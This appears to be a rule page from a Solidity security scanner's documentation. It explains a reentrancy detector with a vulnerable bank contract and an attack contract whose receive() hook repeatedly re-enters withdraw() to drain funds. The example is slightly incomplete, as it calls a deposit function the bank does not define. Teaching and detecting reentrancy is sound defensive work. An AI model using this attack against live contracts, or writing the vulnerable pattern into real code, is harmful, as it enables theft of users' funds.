 ## Reentrancy Protection

### Classic Reentrancy

**ID:** `classic-reentrancy`
**Severity:** High
**Category:** Reentrancy

**Description:**
Detects the classic reentrancy vulnerability where external calls are made before state updates.

**What it Finds:**
- External calls before state changes
- Vulnerable withdrawal patterns
- State modifications after external interactions

**Example Vulnerable Code:**
```solidity
contract VulnerableBank {
    mapping(address => uint256) public balances;

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance");

        // ❌ External call before state update
        (bool success,) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        balances[msg.sender] = 0; // State updated after external call
    }
}
```

**Attack Contract:**
```solidity
contract ReentrancyAttack {
    VulnerableBank bank;
    uint256 public attackCount;

    constructor(address _bank) {
        bank = VulnerableBank(_bank);
    }

    function attack() external payable {
        bank.deposit{value: msg.value}();
        bank.withdraw();
    }

    receive() external payable {
        attackCount++;
        if (attackCount < 10 && address(bank).balance > 0) {
            bank.withdraw(); // Reentrant call
        }
    }
}
```
